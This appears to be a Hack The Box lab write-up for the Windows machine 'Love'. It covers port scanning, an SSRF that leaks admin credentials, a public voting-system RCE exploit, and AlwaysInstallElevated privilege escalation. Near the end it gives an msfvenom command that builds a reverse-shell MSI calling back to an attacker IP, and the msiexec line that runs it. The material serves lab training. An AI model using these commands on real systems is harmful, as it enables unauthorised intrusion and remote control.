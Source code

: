 ```yaml
---
title: "[HTB] Machine: Love"
description: "[HTB] Machine: Love"
date: 2023-08-05
menu:
  sidebar:
    name: "[HTB] Machine: Love"
    identifier: htb-machine-Love
    parent: htb-machines-windows
    weight: 10
hero: images/Love.png
tags: ["HTB", "ssrf", "upload", "webshell", "winpeas", "alwaysinstallelevated", "msi", "msfvenom"]
---
```


# Love
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.239
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-08 16:58 BST
Nmap scan report for 10.10.10.239 (10.10.10.239)
Host is up (0.19s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp  open  msrpc       Microsoft Windows RPC
139/tcp  open  netbios-ssn Microsoft Windows netbios-ssn
443/tcp  open  ssl/http    Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_http-title: 403 Forbidden
|_ssl-date: TLS randomness does not represent time
445/tcp  open  �d��eU      Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   LDAPBindReq, NCP, NULL, SSLSessionReq: 
|_    Host '10.10.16.3' is not allowed to connect to this MariaDB server
5000/tcp open  http        Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94%I=7%D=8/8%Time=64D26648%P=x86_64-pc-linux-gnu%r(NUL
SF:L,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.16\.3'\x20is\x20not\x20allowed
SF:\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SSLSessionReq,
SF:49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.16\.3'\x20is\x20not\x20allowed\x
SF:20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LDAPBindReq,49,"
SF:E\0\0\x01\xffj\x04Host\x20'10\.10\.16\.3'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server")%r(NCP,49,"E\0\0\x01\xf
SF:fj\x04Host\x20'10\.10\.16\.3'\x20is\x20not\x20allowed\x20to\x20connect\
SF:x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h41m00s, deviation: 4h02m31s, median: 20m59s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-08-08T09:20:21-07:00
| smb2-time: 
|   date: 2023-08-08T16:20:22
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.44 seconds

```
- `smb`
```
└─$ smbmap -H 10.10.10.239 -R -u ''
[!] Authentication error on 10.10.10.239
```
- We saw that ports `443` and `5000` are `403 Forbidden`
  - Let's check port `80`

![](./images/1.png)

- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.239/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.239/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/08/08 17:32:46 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 338] [--> http://10.10.10.239/images/]
/index.php            (Status: 200) [Size: 4388]
/home.php             (Status: 302) [Size: 0] [--> index.php]
/login.php            (Status: 302) [Size: 0] [--> index.php]
/Images               (Status: 301) [Size: 338] [--> http://10.10.10.239/Images/]
/admin                (Status: 301) [Size: 337] [--> http://10.10.10.239/admin/]
/Home.php             (Status: 302) [Size: 0] [--> index.php]
/plugins              (Status: 301) [Size: 339] [--> http://10.10.10.239/plugins/]
/includes             (Status: 301) [Size: 340] [--> http://10.10.10.239/includes/]
/Index.php            (Status: 200) [Size: 4388]
/Login.php            (Status: 302) [Size: 0] [--> index.php]
/examples             (Status: 503) [Size: 402]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/preview.php          (Status: 302) [Size: 0] [--> index.php]
/dist                 (Status: 301) [Size: 336] [--> http://10.10.10.239/dist/]
/licenses             (Status: 403) [Size: 421]
/IMAGES               (Status: 301) [Size: 338] [--> http://10.10.10.239/IMAGES/]
/%20                  (Status: 403) [Size: 302]
/INDEX.php            (Status: 200) [Size: 4388]
/Admin                (Status: 301) [Size: 337] [--> http://10.10.10.239/Admin/]
/*checkout*.php       (Status: 403) [Size: 302]
/*checkout*           (Status: 403) [Size: 302]
/*checkout*.txt       (Status: 403) [Size: 302]
/Plugins              (Status: 301) [Size: 339] [--> http://10.10.10.239/Plugins/]
/phpmyadmin           (Status: 403) [Size: 302]
/HOME.php             (Status: 302) [Size: 0] [--> index.php]
```

- `searchsploit`
  - But we don't know the version

![](./images/2.png)

- Also, I didn't noticed first, but there is a vhost `staging.love.htb`
  - It's a free file scanner application

![](./images/3.png)

## Foothold/User
- We have a `/demo.php` where we can supply `url`

![](./images/4.png)

- If we try supplying our ip, we have a connection
  - Potential `SSRF`

![](./images/5.png)

- Same with `http://10.10.10.239`
 
![](./images/6.png)

- We had port `5000`, let's try supplying 
  - We have `creds` from `Password Dashboard`
  - `admin:@LoveIsInTheAir!!!!`

![](./images/7.png)

- We have a possible `RCE` candidate

![](./images/8.png)

- Let's run it
  - If we use the exploit `49445.py` from `searchsploit`, don't forget to remove `votingsystem` from `urls` in script since our target doesn't have that route

![](./images/9.png)

- Set your listener and execute the exploit

![](./images/10.png)
![](./images/11.png)

## Root
- `Winpeas` shows possible priv esc path with `AlwaysInstallElevated`

![](./images/12.png)

- Let's create malicious `msi` and run it
  - `msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.16.3 LPORT=6666 -f msi -o revshell.msi`
  - Download file
  - Launch listener and run malicious file
  - `msiexec /quiet /qn /i revshell.msi`

![](./images/13.png)
